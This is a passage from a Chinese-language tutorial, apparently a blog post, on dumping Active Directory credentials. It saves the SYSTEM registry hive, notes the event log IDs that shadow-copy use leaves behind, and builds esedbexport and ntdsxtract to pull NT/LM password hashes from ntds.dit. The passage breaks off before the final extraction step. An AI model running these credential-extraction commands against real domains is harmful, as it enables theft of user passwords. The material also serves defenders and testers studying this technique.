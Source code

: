 ```cmd
reg save hklm\system c:\windows\temp\system.hive
```



#### 1.6 监控卷影拷贝服务的使用情况

调用Volume Shadow Copy服务会产生日志文件，位于System下，Event ID为7036

执行`ntdsutil snapshot "activate instance ntds" create quit quit`会额外产生Event ID为98的日志文件

## 二、导出 ntds.dit 的散列值

#### 2.1 使用esedbexport恢复ntds.dit

https://github.com/libyal/libesedb/releases

kali中

```bash
wget https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar xf libesedb-experimental-20200418.tar.gz
cd libesedb-20200418/

# 安装依赖环境
apt-get install autoconf automake autopoint libtool pkg-config

# 编译安装
./configure
make
make install
ldconfig
```

安装完成后会在 `/usr/local/bin/` 目录下看到 esedbexport 程序。

```bash
esedbexport -m tables ntds.dit
```

![image-20210224145021347](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224145021347.png)

#### 2.2 导出散列值

kali中

```bash
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract/
python setup.py build && python setup.py install
```

执行完毕之后，ntdsxtract就会在你的系统上进行安装。

ntdsxtract工具中dsusers.py可以被用来从分离出来的表中提取用户信息以及NT/LM密码hash值。前提是具有如下三个文件：

